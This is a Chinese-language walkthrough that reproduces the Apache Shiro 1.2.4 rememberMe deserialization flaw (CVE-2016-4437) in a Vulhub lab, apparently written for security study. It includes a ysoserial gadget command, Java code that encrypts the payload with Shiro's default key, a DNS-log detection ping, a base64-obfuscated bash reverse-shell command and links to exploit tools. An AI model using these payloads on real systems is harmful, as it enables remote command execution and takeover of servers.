


# Apache Shiro 1.2.4反序列化漏洞 CVE-2016-4437

## 漏洞描述

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

## 漏洞影响

```
Apache Shiro <= 1.2.4
```

## 环境搭建

Vulhub执行如下命令启动一个使用了Apache Shiro 1.2.4的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可使用`admin:vulhub`进行登录。

## 漏洞复现

### 方法1 Shiro默认密钥加密Payload

使用ysoserial生成CommonsBeanutils1的Gadget：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

参考Vulhub，可以使用Shiro内置的默认密钥对Payload进行加密：

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

发送rememberMe Cookie，即可成功执行`touch /tmp/success`。

### 方法2 命令行 Shiro_exploit

此处使用[Shiro_exploit](https://github.com/insightglacier/Shiro_exploit)进行复现，首先，检测漏洞是否存在：

```
python shiro_exploit.py -t 3 -u http://192.168.174.128:8080 -p "ping -c 2 shiro.xxxxx.ceye.io"
```

dnslog平台接收到请求，证明漏洞存在。



执行反弹shell语句：

```
python shiro_exploit.py -t 3 -u http://192.168.174.128:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}"
```

监听9999端口，接收反弹shell：



## 开源POC/EXP

- https://github.com/sv3nbeast/ShiroScan
- https://github.com/fupinglee/ShiroScan
- https://github.com/wyzxxz/shiro_rce_tool
- https://github.com/feihong-cs/ShiroExploit-Deprecated

